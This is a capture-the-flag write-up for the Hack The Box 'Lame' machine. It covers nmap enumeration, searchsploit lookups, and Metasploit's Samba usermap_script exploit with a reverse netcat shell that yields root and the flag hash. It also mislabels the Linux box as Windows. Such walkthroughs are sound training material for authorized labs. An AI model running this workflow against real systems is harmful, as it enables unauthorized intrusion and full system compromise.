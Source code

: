 ```yaml
---
layout: default
title: Lame
description: by Hack The Box
---
```


<h3 align="center">
Windows machine
</h3>

## Enumeration

1. Let's run nmap

   ```
   ┌──(schoon3r㉿nexer)-[~]
   └─$ nmap 10.10.10.3 -A -T4 -Pn
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-23 15:51 EST
   Nmap scan report for 10.10.10.3
   Host is up (0.030s latency).
   Not shown: 996 filtered tcp ports (no-response)
   PORT    STATE SERVICE     VERSION
   21/tcp  open  ftp         vsftpd 2.3.4
   |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
   | ftp-syst:
   |   STAT:
   | FTP server status:
   |      Connected to 10.10.14.3
   |      Logged in as ftp
   |      TYPE: ASCII
   |      No session bandwidth limit
   |      Session timeout in seconds is 300
   |      Control connection is plain text
   |      Data connections will be plain text
   |      vsFTPd 2.3.4 - secure, fast, stable
   |_End of status
   22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
   | ssh-hostkey:
   |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
   |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
   139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
   445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
   Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

   Host script results:
   | smb-security-mode:
   |   account_used: <blank>
   |   authentication_level: user
   |   challenge_response: supported
   |_  message_signing: disabled (dangerous, but default)
   |_smb2-time: Protocol negotiation failed (SMB2)
   | smb-os-discovery:
   |   OS: Unix (Samba 3.0.20-Debian)
   |   Computer name: lame
   |   NetBIOS computer name:
   |   Domain name: hackthebox.gr
   |   FQDN: lame.hackthebox.gr
   |_  System time: 2021-11-23T15:40:24-05:00
   |_clock-skew: mean: 2h18m37s, deviation: 3h32m08s, median: -11m23s

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 56.49 seconds
   ```

2. Let's look for vuln for these services point of interest is port 21 and port 139/445
   ```
   ┌──(schoon3r㉿nexer)-[~]
   └─$ searchsploit ftpd 2.3.4
   -------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                                                                            |  Path
   -------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   OpenBSD 2.x < 2.8 FTPd - 'glob()' Remote Buffer Overflow                                                                  | openbsd/remote/20733.c
   RhinoSoft Serv-U FTPd Server < 4.2 - Remote Buffer Overflow (Metasploit)                                                  | windows/remote/18190.rb
   vsftpd 2.3.4 - Backdoor Command Execution                                                                                 | unix/remote/49757.py
   vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                    | unix/remote/17491.rb
   -------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   Shellcodes: No Result
   ```
3. Let's run Metasploit
4. So in metasploit after putting in the options of rhosts... I could not get a shell. For some reason that is not vulnerable? but funny how it says that, that particular version is.
5. It is also worth noting that you can login to the box through ftp using username `anonymous` and password `anonymous`... but there really isn't much you can do there as well. I think it's due to the fact of the user privilege.
6. Back in the MSFconsole lets search for the samba 3.0 service

   ```
   msf6 > search samba 3.0

   Matching Modules
   ================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script         2007-05-14       excellent  No     Samba "username map script" Command Execution
   1  exploit/linux/samba/chain_reply            2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   2  exploit/linux/samba/lsa_transnames_heap    2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   3  exploit/osx/samba/lsa_transnames_heap      2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   4  exploit/solaris/samba/lsa_transnames_heap  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow


   Interact with a module by name or index. For example info 4, use 4 or use exploit/solaris/samba/lsa_transnames_heap

   msf6 > use 0
   [*] No payload configured, defaulting to cmd/unix/reverse_netcat
   msf6 exploit(multi/samba/usermap_script) > options

   Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


   Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.15.37    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


   Exploit target:

   Id  Name
   --  ----
   0   Automatic
   ```

7. It is important to note (or maybe coz im noobish) that you will need to also change the LHOST param and use your tunnel's IP add.
8. A shell is giving when you run the exploit
   ```
   whoami
   root
   ls
   bin
   boot
   cdrom
   dev
   etc
   home
   initrd
   initrd.img
   initrd.img.old
   lib
   lost+found
   media
   mnt
   nohup.out
   opt
   proc
   root
   sbin
   srv
   sys
   tmp
   usr
   var
   vmlinuz
   vmlinuz.old
   cd root
   ls
   Desktop
   reset_logs.sh
   root.txt
   vnc.log
   cat root.txt
   a89ccd5f0604b08ed6c5498c76153ae3
   exit
   ```
9. And there we have it... root.txt contains the flag!

<br><Br><br>

# References

1. https://www.exploit-db.com/exploits/49757
2. https://www.exploit-db.com/exploits/16320

<br><br>

[back to HOME](./)
